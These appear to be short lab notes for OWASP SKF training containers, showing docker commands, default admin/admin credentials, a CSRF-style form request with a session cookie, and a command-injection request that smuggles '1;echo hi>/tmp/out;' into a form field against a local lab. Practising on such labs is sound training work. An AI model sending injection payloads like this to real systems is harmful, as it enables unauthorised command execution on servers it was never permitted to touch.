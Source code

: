 ## blabla1337/owasp-skf-lab:java-csrf

```bash
docker run -p5000:5000 blabla1337/owasp-skf-lab:java-csrf
```

spring-boot
-> admin/admin -> src/main/resources/data.sql


```bash
curl 'http://localhost:5000/update' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: JSESSIONID=DA8353D048C3C8B90D33596A10B2B360' \
  --data-raw 'color=yellow2'
```

## blabla1337/owasp-skf-lab:java-cmd

docker run -p5000:5000 blabla1337/owasp-skf-lab:java-cmd

drop malicious payload in remote filesystem
```bash
curl 'http://localhost:5000/home' \
   -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQJEtZoqQ8I4ZmYVs' \
  --data-raw $'------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs\r\nContent-Disposition: form-data; name="size"\r\n\r\n1;echo hi>/tmp/out;\r\n------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs--\r\n' \
  --compressed
```
